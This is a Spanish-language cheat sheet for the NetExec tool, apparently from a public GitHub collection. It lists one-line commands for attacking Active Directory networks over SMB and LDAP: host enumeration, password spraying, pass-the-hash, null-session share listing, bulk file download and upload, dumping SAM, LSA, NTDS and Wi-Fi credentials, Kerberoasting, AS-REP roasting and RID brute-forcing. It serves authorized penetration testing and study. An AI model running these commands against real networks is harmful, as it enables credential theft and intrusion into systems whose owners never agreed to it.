 # NetExec Cheat Sheet

#### Listar equipos dentro de la red de un AD
```
netexec smb 192.168.1.0/24
```

#### SMB con credenciales a dominio WORKGROUP
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -d WORKGROUP
```

#### SMB con credenciales y especificando a un puerto
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --port <PORT>
```

#### Password Spraying
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p listpassword.txt
```

#### Spraying Attack con usuario y contraseña
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt
```

#### Spraying Attack usando HashNTLM
```
netexec smb <IP-ADDRESS> -u users.txt -H '<HASH-NTLM>'
```

#### Conocer en que equipos se puede autenticar especificando un usuario y password
```
netexec smb 192.168.1.0/24 -u '<USERNAME>' -p '<PASSWORD>'
```

#### Spraying Attack con usuario y contraseña lineal
```
netexec smb <IP-ADDRESS> -u users.txt -p passwd.txt --no-bruteforce --continue-on-success
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u '' -p ''
netexec smb <IP-ADDRESS> -u 'a' -p ''
```

#### Enumeración de directorios compartidos SMB con NULL session
```
netexec smb <IP-ADDRESS> -u 'null' -p '' --shares
```

#### Descargar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --share <DIRECTORY-NAME> --get-file <FIEL-NAME> <OUTPUT-NAME>
```

#### Descargar todos los archivos que contenga el servidor
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M spider_plus -o DOWNLOAD_FLAG=True
```

#### Enviar un archivo de un directorio compartido
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --put-file <FIEL-NAME> \\Windows\\Temp\\<OUTPUT-NAME>
```

#### Enumeración de los usuarios del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --users
```

#### Enumeración de los grupos del Directorio Activo
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --groups
```

#### Enumeración de los grupos locales
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --local-group
```

#### PassTheHash
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -H '<HASH>' --local-auth
```

#### Dumping Hashes SAM
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --sam
```

#### Dumping Hashes LSA
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --lsa
```

#### Dumping Hashes NTDS
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --ntds vss
```

#### Dumping WIFI Password
```
netexec smb <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' -M wireless
```

#### Ataque de Kerberoasting
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --kerberoasting <OUTPUT-FILE>
```

#### Ataque de Asreproast
```
netexec ldap <IP-ADDRESS> -u '<USERNAME>' -p '<PASSWORD>' --asreproast <OUTPUT-FILE>
```

#### Enumeración de usuario (Fuerza Bruta) por RID
```
netexec smb <IP-ADDRESS> -u 'gest' -p '' --rid-brute
```

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)
